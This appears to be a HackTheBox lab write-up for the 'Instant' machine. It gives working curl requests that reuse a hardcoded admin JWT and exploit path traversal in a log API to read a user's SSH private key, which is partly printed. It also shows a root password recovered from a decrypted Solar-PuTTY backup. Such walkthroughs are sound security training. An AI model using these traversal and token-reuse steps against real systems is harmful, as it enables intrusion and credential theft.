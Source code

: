 ```yaml
---
title: Instant
tags:
  - HackTheBox
  - Medium
  - Linux
  - APK
  - Swagger-UI
  - JWT
  - LFI
  - Solar_PuTTY
date: 2025-02-01T00:00:00Z
---
```

![](Pasted%20image%2020250201190404.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.37 instant.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- instant.htb > sC.txt

[redacted]
PORT   STATE SERVICE
```

So I checked its website:

![](Pasted%20image%2020250201190611.png)

I downloaded its apk and extracted all its data using **apktool**:

```shell
apktool d instant.apk
```

Then I opened its folder with code and searched for some communication with `instant.htb`:

![](Pasted%20image%2020250201192540.png)

I found two new subdomains in `network_security_config.xml`:

![](Pasted%20image%2020250201192638.png)

`mywalletv1.instant.htb` and `swagger-ui.instant.htb`

![](Pasted%20image%2020250201192839.png)

## Exploitation

Once here I'll try to register a user and see what happens:

![](Pasted%20image%2020250201193042.png)

![](Pasted%20image%2020250201193103.png)

I'll use the following curl commands:

```shell
# first register a user
curl -X POST "http://swagger-ui.instant.htb/api/v1/register" -H "accept: application/json" -H "Content-Type: application/json" -d "{ \"email\": \"gitblanc@gmail.com\", \"password\": \"gitblanc\", \"pin\": \"12345\", \"username\": \"gitblanc\"}"

# then login
curl -X POST "http://swagger-ui.instant.htb/api/v1/login" -H "accept: application/json" -H "Content-Type: application/json" -d "{ \"password\": \"gitblanc\", \"username\": \"gitblanc\"}"

# I get this access token
{"Access-Token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NCwicm9sZSI6Imluc3RhbnRpYW4iLCJ3YWxJZCI6ImYzYTllOWMxLTczYjEtNGEyZi1iOTVjLWExNjRmNzEwYjBjMiIsImV4cCI6MTczODQ2NDk2M30.JcdPYrGLXiQKQA0MoOvd9oXk65j8cP62XvVcpQHTkEA","Status":201}
```

I decided to search for an admin jwt inside the apk and found one inside `AdminActivities.smali`:

```shell
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

So now I'll use this as an admin jwt to make a petition to `/log` endpoint:

```shell
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2Fuser.txt" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
```

### User flag

![](Pasted%20image%2020250201200249.png)

Now I'll try to get ssh id_rsa keys:

```shell
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F.ssh%2Fid_rsa" -H "accept: application/json" -H "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"

{"/home/shirohige/logs/../.ssh/id_rsa":["-----BEGIN OPENSSH PRIVATE KEY-----\n","b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn\n","NhAAAAAwEAAQAAAYEApbntlalmnZWcTVZ0skIN2+Ppqr4xjYgIrZyZzd9YtJGuv/w3GW8B\n","nwQ1vzh3BDyxhL3WLA3jPnkbB8j4luRrOfHNjK8lGefOMYtY/T5hE0VeHv73uEOA/BoeaH\n","dAGhQuAAsDj8Avy1yQMZDV31PHcGEDu/0dU9jGmhjXfS70gfebpII3js9OmKXQAFc2T5k/\n","5xL+1MHnZBiQqKvjbphueqpy9gDadsiAvKtOA8I6hpDDLZalak9Rgi+BsFvBsnz244uCBY\n","8juWZrzme8TG5Np6KIg1tdZ1cqRL7lNVMgo7AdwQCVrUhBxKvTEJmIzR/4o+/w9njJ3+WF\n","uaMbBzOsNCAnXb1Mk0ak42gNLqcrYmupUepN1QuZPL7xAbDNYK2OCMxws3rFPHgjhbqWPS\n","jBlC7kaBZFqbUOA57SZPqJY9+F0jttWqxLxr5rtL15JNaG+rDfkRmmMzbGryCRiwPc//AF\n","Oq8vzE9XjiXZ2P/jJ/EXahuaL9A2Zf9YMLabUgGDAAAFiKxBZXusQWV7AAAAB3NzaC1yc2\n","EAAAGBAKW57ZWpZp2VnE1WdLJCDdvj6aq+MY2ICK2cmc3fWLS[redacted]
IY6nBT57DOOY\n","CGGElC1cS7pOg/XaOh1bPMaJ4Hi3HUWwAAAMEAvV2Gzd98tSB92CSKct+eFqcX2se5UiJZ\n","n90GYFZoYuRerYOQjdGOOCJ4D/SkIpv0qqPQNulejh7DuHKiohmK8S59uMPMzgzQ4BRW0G\n","HwDs1CAcoWDnh7yhGK6lZM3950r1A/RPwt9FcvWfEoQqwvCV37L7YJJ7rDWlTa06qHMRMP\n","5VNy/4CNnMdXALx0OMVNNoY1wPTAb0x/Pgvm24KcQn/7WCms865is11BwYYPaig5F5Zo1r\n","bhd6Uh7ofGRW/5AAAAEXNoaXJvaGlnZUBpbnN0YW50AQ==\n","-----END OPENSSH PRIVATE KEY-----\n"],"Status":201}
```

Now I have `shirohige`'s private key. I'll connect to the machine with it:

```shell
# adapt it to a file
chmod 400 id_rsa
ssh -i id_rsa shirohige@instant.htb
```

> I'm in :D

![](Pasted%20image%2020250201201703.png)

## Privilege Escalation

I found something weird inside `/opt/backups/Solar-PuTTY`: `sessions-backup.dat`

It seems to be a session backup, so I found a [Solar-PuTTY Session Decryptor](https://github.com/VoidSec/SolarPuttyDecrypt)

> *BAD NEWS*: I need a Windows pc for this part, so I'll create a VM and run the executable with the `sessions-backup.dat` file

![](Pasted%20image%2020250201205053.png)

So once executed the decryptor, I found the root password inside: `root:12**24nzC!r0c%q12`

### Root flag

![](Pasted%20image%2020250201205237.png)

==Machine pwned!==